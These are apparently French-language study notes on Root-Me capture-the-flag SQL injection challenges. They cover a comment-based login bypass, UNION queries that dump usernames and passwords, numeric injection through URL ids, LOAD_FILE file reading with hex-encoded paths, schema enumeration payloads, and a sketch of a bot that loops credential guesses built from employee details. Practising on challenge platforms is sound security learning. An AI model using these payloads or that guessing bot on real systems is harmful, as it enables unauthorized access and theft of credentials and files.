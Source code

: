 # SQL Injection



## Exercices 


### [SQL Injection Authentification](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-authentification)

![Exercice SQL Injection](assets/picture/exercices_root_me_sql_injection_authentification.png)

On peut imaginer la requete SQL :

```SQL
SELECT * FROM users WHERE login = '*****'AND password = '0000000';
```
Test avec 

test = {
    login :"admin'--"
    password : "test" 
}

pour remplacer la requetes par : 

```SQL
SELECT * FROM users WHERE login = 'admin' -- AND password = '000000';
```
Cela permet la mise en commentaire du deuxième argument (AND password);

Pour créer un bot bouclant ce type de requete on pourrait pensé tel que :

Détermination des données :
```TS
sqlRequestsTermination = [
    ''--',
    // SI REQUETE INVERSÉE : SELECT * FROM usersTable WHERE password = '' AND login = ''
    ''
]

table = [
    'users',
    'user'
]

login = [
    ?'admin',
    ?'administrator',
    ?'adm',
    ...
]
```
Ou alors récupérer une liste de password possible via des données récupérées sur le site ou l'entrepise, ou encore ses employés

```TS
password = botFindPassword(["site_name", ""site_creation_date", "compagny_name", "adminitrator_employee_name", "administrator_employee_birth_date", "..."])
password = [
    '12345',
    'test'
]
```

### [SQL Injection - String](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-String)

![Exercice](assets/picture/exercices_root_me_sql_injection_CMSV0.02.png)

Dans cette exemple on peut voir que l'input de recherche est directement connecté à une requete SQL SELECT 

On pourrait pensé comme :
```SQL
--  LA requete devrait resemblée à (ou inputSearch est l'entrée de l'input):
SELECT * FROM tableJspQuoi WHERE '+ inputSearch + ' UNION SELECT 1,2 FROM tableUsers --
--  AVEC LE " ' " guillemet on ferme la valeur de recherche et on peut ajouter notre UNION, avec le double tiret "--" à la fin on met en commentaire le reste de la requet


UNION SELECT 1,2 --
-- On peut tester la table "user"
UNION SELECT 1,2 FROM user
-- On peut tester la table "users"
UNION SELECT 1,2 FROM users
-- Ça marche ! La table "users" exist et devrait contenir des informations utilisateurs...
-- On va tester le nom des champs pour le nom d'utilisateur et password
UNION SELECT login,2 FROM users
-- Ne marche pas ...
UNION SELECT username,2 FROM users
-- Fonctionne !!! On recherche le champ du mot de passe maintenant...
UNION SELECT username,pwd FROM users
-- Ne marche pas ...
UNION SELECT username,password FROM users
-- Fonctionne !!! Vous avez tous les mots de passe !
``` 


### [SQL injection - Numérique](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Numerique?q=%2Ffr%2FChallenges%2FWeb-Serveur%2FSQL-injection-numerique)

![SQL injection - Numérique](assets/picture/exercices_root_me_sql_injection_numerique.png)

On remarque que sur la page News du site dans URI il y a des ids, et lorsques l'on test différentes chaines de caractères random dans cette id, un erreur d'inject SQL apparait, donc cet Ids est bien directement relier à une requete SQL sans modification préalable de la chaine de caractère, donc Inject SQL rapide et facile.

Comme dans le précédents exercices, on va utiliser cette entrée, pour : 
1. Fermer la requete de recherche dans la table des News 
2. Unir (UNION) une autre requete pour trouver la table des utilisateurs.
3. `1 UNION SELECT 1,2,3 FROM users
4. On recherche les champs `1 UNION SELECT 1,username, password FROM users`
5. Bravo ! Vous avec compris comment faire des injection SQL sur des site input Web !!!  

```txt
1%20UNION%20SELECT%201,2,3

```

On peut imager la requête suivante :

```SQL
SELECT 1,2 FROM users WHERE login = Login AND password = Password
SELECT 1,2 FROM users WHERE login = 1 -- AND password = Password


```

### [SQL Injection - Lecture de fichier](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Lecture-de-fichiers)

![Image 1](assets/picture/exercices_root_me_sql_injection_lecture_de_fichier_1.png)
![Image 2](assets/picture/exercices_root_me_sql_injection_lecture_de_fichier_2.png)
![Image 3](assets/picture/exercices_root_me_sql_injection_lecture_de_fichier_3.png)

On va vérifier le nom de la table :
?action=members&id=1%20UNION%20SELECT%201,2,3,4%20FROM%20user
?action=members&id=1%20UNION%20SELECT%201,2,3,4%20FROM%20users
?action=members&id=1%20UNION%20SELECT%201,2,3,4%20FROM%20customer
?action=members&id=1%20UNION%20SELECT%201,2,3,4%20FROM%20customers
?action=members&id=1%20UNION%20SELECT%201,2,3,4%20FROM%20members
?action=members&id=1%20UNION%20SELECT%201,2,3,4%20FROM%20member
La table **member** existe bien et comporte bien 4 champs (colonnes)
No result ??
?action=members&id=1%20UNION%20SELECT%20*%20FROM%20member

Bon là il faudrait obtenir le chemin du fichier index.php pour visualisé la première couche de vérification des inputs

On va donc récupérer le chemin en entrant dans une des inputs une erreur de code php, par exemple : `<?php echo(;?>`

```PHP
Warning: mysqli_connect(): (HY000/2002): No such file or directory in /challenge/web-serveur/ch31/index.php on line 24
mysql connection error !
```
On sait maintenant que le fichier d'index.php à pour chemin **/challenge/web-serveur/ch31/index.php** et que le fonction **mysqli_connect** à été lue(ou compilée) en ligne 24 de ce fichier.

On peut maintenant affichier le fichier index en utilisant la méthode SQL **LOAD_FILE()** en quatrième argument de la méthode **SELECT**

?action=members&id=0%20UNION%20SELECT%201,2,3,LOAD_FILE(/challenge/web-serveur/ch31/index.php);
?action=members&id=0%20UNION%20SELECT%201,2,3,LOAD_FILE('/challenge/web-serveur/ch31/index.php');
?action=members&id=0%20UNION%20SELECT%201,2,3,LOAD_FILE(0x2F6368616C6C656E67652F7765622D736572766575722F636833312F696E6465782E706870);

On a une erreur de syntaxe car SQL rejet et n'interprete pas une string de ce type ainsi que les gillemets, pour contourner le problème on va l'encoder en hexadecimal
```php
[...]r MariaDB server version for the right syntax to use near '/challenge/web-serveur/ch31/index.php)' at line 1 [...]

```



**RESSOURCES**

[CrackStation](https://crackstation.net/) Pour trouver l'algorithme et décoder un mot de passe haché
[Encoder en Hexa](https://www.convertstring.com/fr/EncodeDecode/HexEncode) Pour encoder / décocher une chaine de caractère en hexadecimal
[Exploit DB](https://www.exploit-db.com/) Pour cette 
[';--have i been pwned?](https://haveibeenpwned.com/) Pour verifier les fails des compte avec une adresse Email...





```SQL 
UNION SELECT 1,2,3,4 FROM member
UNION SELECT 1,2,3,4 FROM member

UNION SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE 1 --
UNION SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = N'member'--
UNION SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'member'--
UNION SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME like `member`--
UNION SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = `member`--
UNION SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 1 --





```
